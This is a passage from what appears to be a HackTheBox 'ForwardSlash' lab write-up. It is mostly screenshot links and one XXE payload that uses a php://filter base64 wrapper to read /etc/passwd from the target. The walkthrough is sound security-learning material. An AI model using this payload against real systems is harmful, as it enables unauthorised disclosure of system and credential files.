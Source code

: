 ![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-22-HackTheBox-ForwardSlash/2021-10-22-HackTheBox-ForwardSlash%2008:21:33.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-22-HackTheBox-ForwardSlash/2021-10-22-HackTheBox-ForwardSlash%2008:21:52.png)

We can get the same way as we did before, with base64

```xml
<!DOCTYPE api [
  <!ELEMENT api ANY>
  <!ENTITY file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
]>
<api>
    <request>&file;</request>
</api>
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-22-HackTheBox-ForwardSlash/2021-10-22-HackTheBox-ForwardSlash%2008:24:01.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-22-HackTheBox-ForwardSlash/2021-10-22-HackTheBox-ForwardSlash%2008:24:22.png)